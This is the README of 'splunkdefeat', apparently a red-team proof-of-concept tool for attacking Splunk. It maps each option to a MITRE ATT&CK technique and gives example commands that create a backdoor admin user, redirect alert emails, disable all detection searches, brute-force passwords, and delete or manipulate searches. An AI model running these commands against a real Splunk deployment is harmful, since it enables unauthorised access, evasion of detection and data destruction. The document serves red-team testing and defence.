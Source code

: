 # About splunkdefeat

splunkdefeat is a [Splunk Enterprise SDK for Python](https://dev.splunk.com/enterprise/docs/devtools/python/sdk-python/) wrapper to help red teamers conduct multiple attack techniques against Splunk. The motivation for this proof-of-concept tool was to illustrate practical attacks against Splunk, the associated risks, and how defenders can implement countermeasures. The author assumes no liability for use of this tool.

# Installation

Clone the repository:

```
git clone git@github.com:markernest0/splunkdefeat.git
```

## Python Dependencies

splunkdefeat depends on the `python-dotenv`, `prettytable` and `splunk-sdk` python modules.

Install the python dependencies:

```
pip install -r requirements.txt
```

# Usage

| Short Form    | Long Form     | Description | Tactic | Technique | Sub-Technique
| ------------- | ------------- | ------------- | ------------- | ------------- |------------- |
| -h | --help | show this help message and exit | - | - | - |
| -au | --add_user | Enter the username to create | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Create Account](https://attack.mitre.org/techniques/T1136/) | [Cloud Account](https://attack.mitre.org/techniques/T1136/003/) |
| -ap | --assign_password | Enter the password of the new user | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Create Account](https://attack.mitre.org/techniques/T1136/) | [Cloud Account](https://attack.mitre.org/techniques/T1136/003/) |
| -ar | --assign_role  | Specify the role of the new user (default choice is admin). Choices: {admin,power,user} | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Create Account](https://attack.mitre.org/techniques/T1136/) | [Cloud Account](https://attack.mitre.org/techniques/T1136/003/) |
| -ur | --update_role | Specify the role to update with a capability. Choices: {admin,power,user} | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Account Manipulation](https://attack.mitre.org/techniques/T1098/) | [Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003/) |
| -uc | --update_capability | Specify the capability to add to a role. Choices: {admin_all_objects, schedule_search, edit_user,mdelete_by_keyword, all} | [Persistence](https://attack.mitre.org/tactics/TA0003/) | [Account Manipulation](https://attack.mitre.org/techniques/T1098/) | [Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003/) |
| -ue | --update_email | Enter the new email address for alerts | [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) | [Impair Defenses](https://attack.mitre.org/techniques/T1562/) | [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/) |
| -ds | --disable_searches | Disable all searches | [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) | [Impair Defenses](https://attack.mitre.org/techniques/T1562/) | [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/) |
| -es | --enable_searches | Enable all searches | [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) | [Impair Defenses](https://attack.mitre.org/techniques/T1562/) | [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/) |
| -sh | --splunk_host | Domain name or IP address to enumerate | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Brute Force](https://attack.mitre.org/techniques/T1110/) | - |
| -sp | --splunk_port | Connect to the host on the tcp port. default=8089 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Brute Force](https://attack.mitre.org/techniques/T1110/) | - |
| -su | --splunk_user | Specify the username | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Brute Force](https://attack.mitre.org/techniques/T1110/) | - |
| -sf | --password_file | Specify the use of a password file | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Brute Force](https://attack.mitre.org/techniques/T1110/) | - |
| -lu | --list_user | List current user | [Discovery](https://attack.mitre.org/tactics/TA0007/) | [Account Discovery](https://attack.mitre.org/techniques/T1087/) | [Cloud Account](https://attack.mitre.org/techniques/T1087/004/) |
| -la | --list_all | List all users | [Discovery](https://attack.mitre.org/tactics/TA0007/) | [Account Discovery](https://attack.mitre.org/techniques/T1087/) | [Cloud Account](https://attack.mitre.org/techniques/T1087/004/) |
| -lr | --list_roles | List all roles  | [Discovery](https://attack.mitre.org/tactics/TA0007/) | [Permission Groups Discovery](https://attack.mitre.org/techniques/T1069/) | [Cloud Groups](https://attack.mitre.org/techniques/T1069/003/) |
| -ls | --list_searches | List all searches | [Discovery](https://attack.mitre.org/tactics/TA0007/) | [Cloud Service Discovery](https://attack.mitre.org/techniques/T1526/) | - |
| -ss | --save_searches | Save all searches locally | [Exfiltration](https://attack.mitre.org/tactics/TA0010/) | [Automated Exfiltration](https://attack.mitre.org/techniques/T1020/) | - |
| -du | --delete_user | Delete a specific user | [Impact](https://attack.mitre.org/tactics/TA0040/) | [Account Access Removal](https://attack.mitre.org/techniques/T1531/) | - |
| -rs | --delete_searches | Delete all searches | [Impact](https://attack.mitre.org/tactics/TA0040/) | [Data Destruction](https://attack.mitre.org/techniques/T1485/) | - |
| -ms | --manipulate_searches | Manipulate all searches | [Impact](https://attack.mitre.org/tactics/TA0040/) | [Stored Data Manipulation](https://attack.mitre.org/techniques/T1565/001/) | - |

## Examples

* To list all the options and switches use the -h switch:

```python splunkdefeat.py -h```

### PERSISTENCE

* Create a new user use the -au, -ap, and -ar switches:

```python splunkdefeat.py -au splunk-replicate -ap mypassword123 -ar admin```

* Modify a role with additional capabilities

```python splunkdefeat.py -ur admin -uc delete_by_keyword```
    
### DEFENSE EVASION

* Update the email for all search alert actions

```python splunkdefeat.py -ue noreply@example.com```

* Disable all searches

```python splunkdefeat.py -ds```

* Enable all searches
* 
```python splunkdefeat.py -es```

### CREDENTIAL ACCESS

* Brute force a user

```python splunkdefeat.py -sh splunk.example.com -sp 8089 -su sc_admin -sf```

### DISCOVERY

* List current user and role

```python splunkdefeat.py -lu```

* List all users and roles

```python splunkdefeat.py -la```

* List all roles and capabilities

```python splunkdefeat.py -lr```

* List all searches

```python splunkdefeat.py -ls```

### EXFILTRATION

* Download all saved searches locally

```python splunkdefeat.py -ss```

### IMPACT

* Delete a user

```python splunkdefeat.py -du user_a```

* Delete all searches

```python splunkdefeat.py -rs```
    
* Manipulate all searches

```python splunkdefeat.py -ms```

